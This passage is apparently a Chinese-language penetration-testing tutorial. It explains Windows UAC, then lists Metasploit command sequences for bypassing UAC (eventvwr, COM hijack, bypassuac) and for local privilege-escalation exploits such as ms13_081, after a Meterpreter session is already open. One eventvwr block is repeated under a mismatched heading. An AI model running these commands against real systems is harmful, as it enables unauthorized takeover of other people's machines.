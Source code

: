 2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果你以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

- **通过 COM 处理程序劫持**

    此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```
